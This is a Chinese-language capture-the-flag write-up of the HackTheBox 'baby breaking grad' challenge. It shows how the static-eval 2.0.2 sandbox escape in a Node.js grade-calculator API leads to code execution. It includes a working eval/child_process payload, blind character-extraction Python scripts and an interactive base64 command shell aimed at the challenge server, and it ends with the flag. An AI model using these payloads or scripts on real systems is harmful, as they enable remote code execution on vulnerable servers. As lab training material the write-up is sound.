








# baby breaking grad

:::note CHALLENGE DESCRIPTION

Difficulty: EASY

We corrected the math in our physics teacher's paper and now he is failing us out of spite for making a fool out of him in the university's research symposium, now we can't graduate, unless we can do something about it...

我们纠正了物理老师论文中的数学错误，现在他却因此怀恨在心，让我们挂科——就因为我们在大学学术研讨会上让他在同行面前出丑了。现在导致我们无法毕业，除非我们能想办法解决这个问题...

:::

直接访问


交互过程中，看到这个请求

```plaintext
http://94.237.57.18:58093/api/calculate

req: {"name":"Jack Purvis"}
res: {"pass":"no00000o0o0pe"}
```

尝试构造一个畸形的 json 上去



```plaintext
SyntaxError: Unexpected string in JSON at position 17
    at JSON.parse (<anonymous>)
    at parse (/app/node_modules/body-parser/lib/types/json.js:89:19)
    at /app/node_modules/body-parser/lib/read.js:121:18
    at invokeCallback (/app/node_modules/raw-body/index.js:224:16)
    at done (/app/node_modules/raw-body/index.js:213:7)
    at IncomingMessage.onEnd (/app/node_modules/raw-body/index.js:273:7)
    at IncomingMessage.emit (events.js:327:22)
    at endReadableNT (_stream_readable.js:1221:12)
    at processTicksAndRejections (internal/process/task_queues.js:84:21)
```

看样子是 NodeJS 服务端，使用 `body-parser` 来解析 json

分析题目给出的环境源码



分析路由部分



那么核心就在于

```javascript
router.post('/api/calculate', (req, res) => {
    let student = req.body;

    if (student.name === undefined) {
        return res.send({
            error: 'Specify student name'
        })
    }

    let formula = student.formula || '[0.20 * assignment + 0.25 * exam + 0.25 * paper]';

    if (StudentHelper.isDumb(student.name) || !StudentHelper.hasPassed(student, formula)) {
        return res.send({
            'pass': 'n' + randomize('?', 10, {chars: 'o0'}) + 'pe'
        });
    }

    return res.send({
        'pass': 'Passed'
    });
});
```

看一下 `StudentHelper` 的实现

```javascript
const evaluate = require('static-eval');
const parse = require('esprima').parse;

module.exports = {
    isDumb(name){
        return (name.includes('Baker') || name.includes('Purvis'));
    },

    hasPassed({exam, paper, assignment}, formula) {
        let ast = parse(formula).body[0].expression;
        let weight = evaluate(ast, { exam, paper, assignment});

        return parseFloat(weight) >= parseFloat(10.5);
    }
};
```

那么第一步

```javascript
if (StudentHelper.isDumb(student.name) || !StudentHelper.hasPassed(student, formula)) {
    return res.send({
        'pass': 'n' + randomize('?', 10, {chars: 'o0'}) + 'pe'
    });
}
```

对于 `StudentHelper.isDumb(student.name)`

```javascript
isDumb(name){
    return (name.includes('Baker') || name.includes('Purvis'));
}
```

即学生姓名中含有 `Baker` 或者 `Purvis` 就会返回 `n000o0oo00ope`

对于`StudentHelper.hasPassed(student, formula)`而言

```javascript
hasPassed({exam, paper, assignment}, formula) {
    let ast = parse(formula).body[0].expression;
    let weight = evaluate(ast, { exam, paper, assignment});

    return parseFloat(weight) >= parseFloat(10.5);
}
```

作为表达式解析，这里的分数计算没有问题，问题在于

```javascript
let ast = parse(formula).body[0].expression;
let weight = evaluate(ast, { exam, paper, assignment});
```

尝试在本地进行测试，使用

```json
{
    "name": "John Doe",
    "exam": 5,
    "paper": 5,
    "assignment": 5,
    "formula":"this.constructor.constructor('return process.env')()"
}
```



进入到`StudentHelper.hasPassed`函数



说明AST的payload有问题

尝试NodeJS的原型链污染，实现RCE

观察相关函数和依赖库

```javascript
const evaluate = require('static-eval');
const parse = require('esprima').parse;

"dependencies": {
    "body-parser": "^1.19.0",
    "express": "^4.17.1",
    "randomatic": "^3.1.1",
    "static-eval": "2.0.2"
}
```

关于`static-eval == 2.0.2`看到这个漏洞信息

- [Arbitrary Code Execution in static-eval | Snyk](https://security.snyk.io/vuln/SNYK-JS-STATICEVAL-173693)
- [Withdrawn: Arbitrary Code Execution in static-eval · CVE-2021-23334 · GitHub Advisory Database](https://github.com/advisories/GHSA-8v27-2fg9-7h62)

漏洞库给出的payload为

```javascript
var evaluate = require('static-eval'); 
var parse = require('esprima').parse; 
var src="(function (x) { return ${eval("console.log(global.process.mainModule.constructor._load('child_process').execSync('ls').toString())")} })()";
var ast = parse(src).body[0].expression; evaluate(ast)
```

由于没有办法直接将命令运行结果输出，所以需要采用盲注的形式

```javascript
// 基本框架
(function (x) { return ${eval()} })()

// 基本框架中的 javascript 载荷
console.log(global.process.mainModule.constructor._load('child_process').execSync('ls').toString())

// 构建命令执行主体
global.process.mainModule.constructor._load('child_process').execSync('whoami')

// 将命令执行结果处理为字符串
global.process.mainModule.constructor._load('child_process').execSync('whoami').toString()

// 构建盲注
if(global.process.mainModule.constructor._load('child_process').execSync('whoami').toString().charCodeAt(0) == 72) {25} else {1}
```

构建完成之后，只有盲注命中，才会返回`Passed`



首先，按照这个思路，写出脚本的雏形

```python
import string
import requests
from tqdm import tqdm

url = "http://94.237.57.18:58093/api/calculate"

proxies = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080",
}

command = "whoami"
res = ""


for i, _ in enumerate(iter(bool, True)):
    res_flag = False
    for chr in string.printable:
        # print(chr)
        payload = (
            "(function (x) { return `${eval(\"if(global.process.mainModule.constructor._load('child_process').execSync('"
            + command
            + "').toString().charCodeAt("
            + str(i)
            + ") == "
            + str(ord(chr))
            + ') {25} else {1}")}` })()'
        )

        data = {"name": "123", "formula": payload}
        # print(payload)
        r = requests.post(url, json=data, proxies=proxies)

        if "Passed" in r.text:
            res_flag = True
            res += chr
            print(res)

            if chr == "}":
                quit()

            break
    if not res_flag:
        break
print("Attack finished")
```

能跑，但是太慢了，尝试使用多线程进行优化

```python
import string
import requests
from tqdm import tqdm
from concurrent.futures import ThreadPoolExecutor

url = "http://94.237.57.18:58093/api/calculate"

proxies = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080",
}

command = "whoami"
res = ""

def check_char(i, chr):
    payload = (
        "(function (x) { return `${eval(\"if(global.process.mainModule.constructor._load('child_process').execSync('"
        + command
        + "').toString().charCodeAt("
        + str(i)
        + ") == "
        + str(ord(chr))
        + ') {25} else {1}")}` })()'
    )

    data = {"name": "123", "formula": payload}
    r = requests.post(url, json=data, proxies=proxies)

    if "Passed" in r.text:
     return chr
    return None

def guess_char(i):
    with ThreadPoolExecutor(max_workers=len(string.printable)) as executor:
        futures = {executor.submit(check_char, i, chr): chr for chr in string.printable}
        for future in tqdm(futures, desc=f"Guessing character at position {i}"):
            result = future.result()
            if result:
                return result
    return None

for i in range(100):  # 假设最多100个字符
    char = guess_char(i)
    if char is None:
        break
    res += char
    print(res)

print("Attack finished")
```

最终可以得到

```bash
> whoami
nobody
```

> 还是太慢了！有没有更快的办法？
>
> 有的有的，报错！



那么只需要使用`base64`将命令执行的结果搞回来就可以了

```python
import base64
import requests
from setuptools import Command

url = "http://94.237.57.18:58093/api/calculate"

proxies = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080",
}


def exploit(url: str, command: str):
    payload = (
        "(function (x) { return `${eval(\"if(global.process.mainModule.constructor._load('child_process').execSync('echo 123`"
        + command
        + " | base64 -w 0`123 | bash').toString().charCodeAt(0) == 41) {25} else {1}\")}` })()"
    )

    data = {"name": "123", "formula": payload}
    r = requests.post(url, json=data, proxies=proxies)
    res = r.text.split("line 1: ")[1].split(": command not")[0]
    if res[:3] == "123" and res[-3:] == "123":
        return base64.b64decode(res[3:-3]).decode()


while True:
    command = input("> ")
    print(exploit(url, command))
```



```flag
HTB{f33l1ng_4_l1ttl3_blu3_0r_m4yb3_p1nk?...you_n33d_to_b3h4v'eval!!}
```
